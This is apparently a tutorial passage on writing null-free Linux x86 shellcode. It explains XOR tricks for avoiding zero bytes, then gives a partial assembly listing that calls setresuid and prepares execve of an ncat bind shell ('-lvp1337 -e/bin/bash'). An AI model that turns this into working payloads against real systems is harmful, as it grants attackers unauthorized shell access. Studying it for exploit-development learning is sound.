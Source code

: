 Null byte is a byte with the value zero \x53\x83\xec\x08\xe8\xbf\ **x00\x00\x00** \x81\xc3\x0f\x1c\ **x00\x00** \x8b\x83\x24\ **x00\x00\x00** \x85\xc0\x74\x05\xe8\x62\ **x00\x00\x00** \x83\xc4\x08\x5b\xc3 . It is in many character sets, such as ISO/IEC 646 (or ASCII), the C0 control code, the Universal Coded Character Set (or Unicode), and EBCDIC. It can be used in almost all popular computer languages. Most of the time, this happens when we try to get shellcode out of a C program.

Even if we try to run this shellcode, the program will stop at the first Null Byte (/x00).

If we look is full of those bits we do not want! In the first part of shellcode you will see that I did not have any problems with those bits

I speak with [NytroRST](https://twitter.com/NytroRST) and he said: "To avoid NULL bytes, all you have to do is to replace the instructions in the machine code with contain NULL .For example, to make a 0 register.". You can do this using the next instruction in assembly language:
```sh
mov eax, 0
```
But this will contain NULL bytes and a void replacing the instruction with 
```sh
xor eax, eax
```
Which has the same result,`EAX` becomes `0`, but there is no `NULL` in machine language.Then I remembered that in college I used an XOR method on an electric circuit which can also be applied here.

Although,I tried to run as much as I could from ASM,we need to write in Assembly Language so I can get rid of those NULL. I will put in references,link with cours in Assembly language and i will put a article writen by NytroRST about Shellcode for Windows.

How can we use the method XOR? it's very easy, I'll put a little schema to understand.
```sh
0 XOR 0 = 0
0 XOR 1 = 1
1 XOR 0 = 1
1 XOR 1 = 0
```
You need to remember two ideas :
- You can't have NULL in your shellcode! 
- XOR is your friend!

## Start To Build Shellcode!

Now let's start building our assembly code:
```c
global _start:
  _start:
  jmp short todo

  shellcode:

  xor eax, eax            ;Zero out eax
  xor ebx, ebx            ;Zero out ebx
  xor ecx, ecx            ;Zero out ecx
  cdq	      		  ;Zero out edx using the sign bit from eax
  mov BYTE al, 0xa4       ;Setresuid syscall 164 (0xa4)
  int 0x80                ;Syscall execute
  pop esi                 ;Esi contain the string in db
  xor eax, eax            ;Zero out eax
  mov[esi+13], al         ;Null terminate "/usr/bin/ncat"
  mov[esi+22], al         ;Null terminate "-lvp1337"
  mov[esi+34], al         ;Null terminate "-e/bin/bash"
  mov[esi+35], esi        ;Store address of "/usr/bin/ncat" in AAAA
  lea ebx, [esi+14]       ;Load address of "-lvp1337"
  mov[esi+39], ebx        ;Store address of "-lvp1337" in BBBB taken from ebx
  lea ebx, [esi+23]       ;Load address of "-e/bin/bash" into ebx
  mov[esi+43], ebx        ;Store address of "-e/bin/bash" in CCCC taken from ebx
  mov[esi+47], eax        ;Zero out DDDD
  mov al, 11              ;11 is execve syscall number
```